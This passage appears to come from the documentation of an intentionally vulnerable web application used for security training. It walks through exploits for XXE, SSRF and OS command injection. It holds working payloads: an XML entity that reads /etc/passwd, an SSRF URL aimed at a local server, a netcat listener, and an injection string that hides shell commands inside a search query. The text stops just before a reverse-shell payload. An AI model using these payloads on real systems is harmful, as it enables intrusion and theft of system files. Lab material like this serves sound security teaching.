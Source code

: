    <?xml version='1.0'?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <page title="Exploit" publicationDate="2024-01-01">
        <block type="header">Here's the server's /etc/passwd</block>
        <block type="paragraph">&xxe;</block>
    </page>
    ```

### CWE-918: Server-Side Request Forgery (SSRF)

It is recommended to have a local running HTTP server on the victim's server and assume that it cannot be accessible from the outside to better understand this attack. The following Docker command runs a simple HTTP web server on port 8080:
```shell
docker run -p 8080:80 salb98/svt-local-webserver
```
Its structure is very simple:
```
/
│
├── images/
│   └── secret.png
└── index.html
```

Scan the server's open ports:
1. Run the [Python script](./exploit/portscan.py) present in the `exploit` directory. You can do this by typing the following command from the root of the repository:
    ```shell
    python exploit/portscan.py
    ```
2. Wait a few seconds, until the script has finished its execution. A possible output is the following:
    ```
    Port 5173 is active!
    Port 8080 is active!
    ```

Download an image from the local server:
1. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface).
2. Click the "New page" button on the back-end to add a new page.
3. Insert a title and a header block.
4. Add an image block, set it to "Upload a new image" and "Download from an external URL", then input any file name and the following URL:
    ```
    http://localhost:8080/images/secret.png
    ```

### CWE-78: Improper Neutralization of Special Elements used in an OS Command (’OS Command Injection’)

1. Use `netcat` to create a service listening on port 4242 of the attacker's machine by executing this short shell script:
    ```shell
    while true; do nc -lvp 4242; echo '\n'; done
    ```
    **Note**: To stop this service from listening, you must close the terminal. CTRL+C does not work.
2. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface)
3. Click the "New page" button on the back-end to add a new page.
4. Insert a title and a header block.
5. Add an image block, set it to "Existing image" and then input the following string in the search query to show the contents of the server's `/etc/passwd` file:
    ```
    ";cat${IFS%??}/etc/passwd;echo${IFS%??}-n${IFS%??}"
    ```
    Alternatively, input the following string to spawn a reverse shell: